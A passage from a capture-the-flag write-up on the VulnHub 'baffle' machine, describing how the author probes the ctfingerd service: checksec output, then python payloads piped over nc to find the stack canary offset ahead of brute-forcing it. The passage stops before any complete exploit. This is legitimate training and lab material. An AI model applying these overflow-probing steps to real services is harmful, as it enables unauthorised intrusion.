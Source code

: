 ```
User to query: charlie
Checking...
I haz a flag mwahahaha
---
```

It seem this binary try to read file .plan of each users.
```
bob@baffle:~$ ls -al
total 40
drwxr-xr-x 5 bob     bob     4096 Oct 25 04:21 .
drwxr-xr-x 6 root    root    4096 Oct 20 03:38 ..
-rw------- 1 bob     bob      188 Oct 25 04:18 .bash_history
-rw-r--r-- 1 bob     bob      220 Oct 17 15:28 .bash_logout
-rw-r--r-- 1 bob     bob     3515 Oct 17 15:28 .bashrc
drwxrwx--- 2 bob     vulnhub 4096 Oct 24 07:27 binz
drwxr-xr-x 2 charlie charlie 4096 Oct 25 04:07 filez
-rw-r--r-- 1 bob     bob       21 Oct 25 04:11 .plan
-rw-r--r-- 1 bob     bob      675 Oct 17 15:28 .profile
drwx------ 2 root    root    4096 Oct 25 04:21 .ssh
bob@baffle:~$ pwd
/home/bob
bob@baffle:~$ cat .plan
Vulnerable by Design
bob@baffle:~$
```

I now pull the executable binary ctfingerd to my Kali and check if the binary was compiled with any security configuration.
```
root@AIRBUS:# gdb -q ctfingerd
Reading symbols from ctfingerd...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```
[Stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection) was enabled to detect if there is any buffer overflow on the stack.

### Brutforcing Stack Canary
The binary will return "---" if it still cannot detect stack smashed. I could use this to find canary position and brutforce the canary.
```
root@AIRBUS:# python -c'print "A" * 1000' | nc 127.0.0.1 7979
+ connection accepted
+ back in parent
Socket fd: 5
User to query: Checking...
User to query: plan_loc [/home/AAAAAAAAAAAAAAAAAAAAAAA]
Don't know anything about this user.
---
^C
root@AIRBUS:# python -c'print "A" * 1001' | nc 127.0.0.1 7979
+ connection accepted
+ back in parent
Socket fd: 6
User to query: Checking...
User to query: plan_loc [/home/AAAAAAAAAAAAAAAAAAAAAAA]
*** stack smashing detected ***: ./ctfingerd terminated
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x6ee55)[0x7f6c9b206e55]
--- snipped ---
```